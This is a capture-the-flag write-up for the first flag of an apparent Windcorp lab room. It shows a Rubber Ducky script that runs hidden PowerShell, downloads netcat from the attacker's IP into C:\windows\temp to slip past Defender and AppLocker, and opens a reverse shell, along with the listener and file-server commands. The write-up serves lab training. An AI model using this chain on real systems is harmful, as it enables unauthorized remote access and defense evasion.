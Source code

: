 
## Flag 1

As the important information given next to the story there is a TFTP server running and we can run Rubber Ducky scripts on the target machine.

At this point, there is nothing much we can do. We can't scan or enumerate any port because all ports are blocked by a firewall to simulate we don't have local network access (Because, according to the story, we aren't on the same network as the CEO laptop. We were only dropping a USB rubber ducky with a reverse shell script on her driveway). So for now, our main foothold is the TFTP and Rubber Ducky scripts.

From the previous room in the Windcorp series, we know that Windows Defender and AppLocker is definitely on. If we intend to use netcat, we will need to put it in a path that Windows Defenders and AppLocker won't detect it.

We will place our netcat executable in `C:\windows\temp` because `C:\windows` is usually excluded from the rules.

This is the Rubber Ducky script we will use to download the netcat executable from our machine.

```
REM The next three lines execute a command prompt in Windows
DELAY 500
GUI r
DELAY 500
STRING powershell -W hidden
ENTER
DELAY 1000
ENTER
STRING Invoke-WebRequest http://10.4.33.237:8000/nc.exe -outfile c:\windows\temp\nc64.exe
ENTER
DELAY 1000
STRING c:\windows\temp\nc64.exe 10.4.33.237 9999 -e cmd
ENTER
```

We need to host the netcat executable with a python SimpleHTTPServer using command below:
```
python3 -m http.server
```

And we will need to setup a netcat listener on our machine to cache the rev shell.
```
sudo rlwrap -cAr nc -lvnp 9999
```

Once the netcat executable is downloaded, the Rubber Ducky script will run the next command and spawn a netcat reverse shell.

When we have our rev shell, we can do some directory enumeration

```
 Directory of C:\Users\alcrez\Desktop

09/19/2020  01:34 AM    <DIR>          .
09/19/2020  01:34 AM    <DIR>          ..
09/19/2020  01:34 AM                45 Flag1.txt
09/16/2020  12:18 PM             1,034 Update VPN.lnk
               2 File(s)          1,079 bytes
               2 Dir(s)  36,812,042,240 bytes free
```
On our user `alcrez` desktop we find our first flag `Flag 1` **/** `C:\Users\alcres\Desktop\Flag1.txt`
